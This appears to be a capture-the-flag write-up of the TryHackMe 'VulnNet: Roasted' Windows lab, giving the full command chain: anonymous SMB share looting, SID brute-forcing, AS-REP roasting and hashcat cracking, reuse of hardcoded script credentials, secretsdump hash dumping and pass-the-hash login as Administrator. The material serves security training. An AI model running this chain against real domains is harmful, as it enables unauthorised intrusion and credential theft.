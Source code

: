 ```yaml
---
layout: post
title: TryHackMe/Easy/VulnNet-Roasted
abbrlink: d898d3da4fe248d4b06ffe40f7fdfa47
tags:
  - evil-winrm
  - smb
  - windows
  - impacket
categories:
  - Labs
  - TryHackMe
  - 1. Easy
  - "VulnNet: Roasted"
date: 1722176338223
updated: 1722491324551
---
```


<https://tryhackme.com/r/room/vulnnetroasted>

# Scenario

VulnNet Entertainment just deployed a new instance on their network with the newly-hired system administrators. Being a security-aware company, they as always hired you to perform a penetration test, and see how system administrators are performing.

- Difficulty: Easy
- Operating System: Windows

This is a much simpler machine, do not overthink. You can do it by following common methodologies.

Note: It might take up to 6 minutes for this machine to fully boot.

# Enumeration

## \[+] 10.10.8.165 - vulnnet.thm

We will add the target IP address and a domain name to our `/etc/hosts` file. Using `sudo sh -c`, executes the entire command as a subshell as `root` where we will then use `echo` to create a new line with `\n` followed by our target IP and the domain name we give it.

```sh
sudo sh -c 'echo "\n10.10.8.165 vulnnet.thm" >> /etc/hosts'
```

Then `export` the IP address to the environment variable `RHOSTS` so I can use `$RHOSTS` instead of typing the IP address every time.

```sh
export RHOSTS=10.10.8.165
```

First, I run a quick scan with [rustscan](https://github.com/RustScan/RustScan) and a longer [nmap](https://nmap.org/) stealth scan with `-Pn` mode enabled which will treat all hosts as online which helps find other hosts that block ICMP packets:

```sh
rustscan -a $RHOSTS --ulimit 5000 -b 4500 -t 2000 --range 1-65535 -- -sC -sV
sudo nmap -v -Pn -sS -p- -A --min-rate=1000 -T4 $RHOSTS -oN nmap.txt
```

After our Nmap scan is finished, we will find the domain `vulnnet-rst.local` which we also need to add to our `/etc/ hosts` file. It should look something like:

```plaintext
10.10.8.165 vulnnet.thm vulnnet-rst.local
```

## \[+] Port 139/445 - SMB

We use Impacket's [SMBClient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) tool to try and list the available shared volumes using unauthenticated login:

```sh
smbclient --no-pass -L //$RHOSTS
```

![6b81227813a58204c841225d9247c314.png](/resources/01d78600303e487c9a5035d1f4f91c8a.png)

The two shares that stand out are `VulnNet-Business-Anonymous` and `VulnNet-Enterprise-Anonymous` the rest are default shares.

Let's start by checking the `VulnNet-Business-Anonymous` share using the command:

```sh
smbclient --no-pass //$RHOSTS/VulnNet-Business-Anonymous
ls
```

We can download all of the files at once using `mget *` and enter `Y` when prompted:

![bb7126fcfb6f2753787653870cd8f3d1.png](/resources/7ae6d05caa2f40e1bc06af7588093d79.png)

Some of these text files have names of staff that we can use to generate an e-mail address list:

![31c62b36543dca8a55ea9101c282ef1f.png](/resources/c7ffddbefbeb42b2ba33f4d83f216ebb.png)

```sh
smbclient --no-pass //$RHOSTS/VulnNet-Enterprise-Anonymous
ls
```

![a4437799862cde94fe7c24f41355b19b.png](/resources/4ddb2505ab3849c0aab4f2c2fb58d50d.png)

Download all the files using `mget *`:

![b4b4fb3042f9ad9751a5fdbbdfd1975b.png](/resources/5cef7d6ed66541b3b99eb7e52be61ffc.png)

More names of staff in the text files:

![b32b25d28b6714900cccea4f28f8eafb.png](/resources/1e845342935a4727b11a94e4404fa02f.png)

At this point we can use these names from the text files to generate an e-mail list to use with Impacket's [lookupsid](https://github.com/fortra/impacket/blob/master/examples/lookupsid.py) tool but let's try default accounts like `Administrator` and `Guest` first.

From our Nmap enumeration, we found the domain is `vulnnet-rst.local`. We can try an e-mail address like `guest@vulnnet-rst.local` to use with `lookupsid` to brute force user SIDs in the Active Directory and pipe the results to `tee` so we can see the output and save it to `users.txt`:

```sh
impacket-lookupsid guest@vulnnet-rst.local | tee usersid.txt
```

![2484795aae44d5113f37e3836828ec25.png](/resources/396d57ef2ca94d62a182d8fd4217b7b8.png)

Then we clean the output using `grep`, `awk` and `cut`:

```sh
grep SidTypeUser usersid.txt | awk '{print $2}' | cut -d "\\" -f2 > usernames.txt
cat usernames.txt
```

![2dabe0ecebf6fbf9f4eacbd10dc76436.png](/resources/29d2218252324e91869a243fbc121e2f.png)

Next, we can use this username list with Impacket's [GetNPUsers](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py) tool to find accounts that are vulnerable to an [AS-REP Roasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast) attack. Then we output the hashes we find into a format we can use to crack the hash with [hashcat](https://hashcat.net/hashcat/):

```sh
impacket-GetNPUsers vulnnet-rst.local/ -no-pass -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
```

![5019b6ab618996987ca8880ea1dbde15.png](/resources/ad86f9c7d8614b249d6d4ec8fbb06069.png)

```sh
hashcat -m 18200 --force -a 0 hashes.asreproast /usr/share/wordlists/rockyou.txt
```

![08e0e94e3f6f0eaa1751c48956fd7b71.png](/resources/cc19626a319d4b2a8de7f5ed948b0169.png)

With these credentials, we can use SMBMap to find out what permissions the user `t-skid` has:

```sh
smbmap -H $RHOSTS -u 't-skid' -p '<PASSWORD>'
```

![83bab82986313a9adc553e4af933cfe4.png](/resources/48e1231430c74e419b04e165e6043053.png)

There is a new share we have access to, `NETLOGON`. Using SMBClient again, we can browse the directory and see if there is anything interesting:

```sh
smbclient //$RHOSTS/NETLOGON --user 't-skid'
ls
```

Inside this share we will find a [VBS](https://en.wikipedia.org/wiki/VBScript) file:

```sh
ls
```

![2a9f60674e9c1711bb412ea071778bb2.png](/resources/d92d1fad164a42d0a341abce19949be3.png)

We can download the file using the following command:

```sh
get ResetPassword.vbs
```

![9cffdb1a4e2426248dfef5901f1b2da4.png](/resources/f051e1ac85a740d9bc7104dc4c6b1af2.png)

Then, exit SMBClient with the `exit` command.

Using `cat` to print the contents of the `ResetPassword.vbs` file, we will find some hardcoded credentials for the user `a-whitehat`:

```sh
cat ResetPassword.vbs
```

![514560c334f7e9444f7e296a9042f96c.png](/resources/d9fcac3204b942358b93f9e0254ea397.png)

Using `smbmap` to check the permissions for the user `a-whitehat`, we will find that we are now able to read/write to some other directories:

```sh
smbmap -H $RHOSTS -u 'a-whitehat' -p '<PASSWORD>'
```

![2605f9b20719d66b85e4f6d64d206852.png](/resources/1d7359d181fa451f8d05cea260218e7a.png)

# Initial Foothold

## \[+] Port 5985 - WinRM

### \[-] \\\vulnnet-rst\a-whitehat

We can use [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) along with the credentials for `a-whitehat`:

![ed4b52af6a36cd54a59c81d03385523e.png](/resources/b1c73d22dfef48b5890ccd4b2c32b8b4.png)

The user flag can be found in `C:\Users\enterprise-core-vn\Desktop\user.txt`:

```plaintext
cd C:\Users\enterprise-core-vn\Desktop\
dir
type user.txt
```

![fb4a264bf96a94ac777e67d3cad85b7a.png](/resources/d7a5072da4f44dbc8e22877c8f1167e9.png)

# Privilege Escalation

### \[-] \\\vulnnet-rst\administrator

In a new terminal, we can use the same credentials fo `a-whitehat` with Impacket's [Secretsdump](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) tool to try and dump all the hashes on the system so that we can use the hash in a [Pass-the-Hash](https://en.wikipedia.org/wiki/Pass_the_hash) attack and log in as that user:

```sh
impacket-secretsdump vulnnet-rst.local/a-whitehat:<PASSWORD>@$RHOSTS
```

![cab569a13f887b606ddb8086d75a31ef.png](/resources/e4e01d4760184d1c96dc64a95e85dab6.png)

Now that we have found the password hash for the Administrator account, we can use this hash instead of a password. In a new terminal, run Evil-WinRM and log in as the administrator:

```sh
evil-winrm -i vulnnet-rst.local -u administrator -H "<HASH>"
```

![891c7a6d0273d762492677f994f907ab.png](/resources/590696e194d04db39f3c27480159865b.png)

The flag for the administrator can be found in `C:\Users\Administrator\Desktop\system.txt`:

```sh
cd ..\Desktop
dir
type system.txt
```

![b0aaea643f2b0be75f2fe70b1182b4ba.png](/resources/175415a145bb44d9b52e9c1cdd15978a.png)
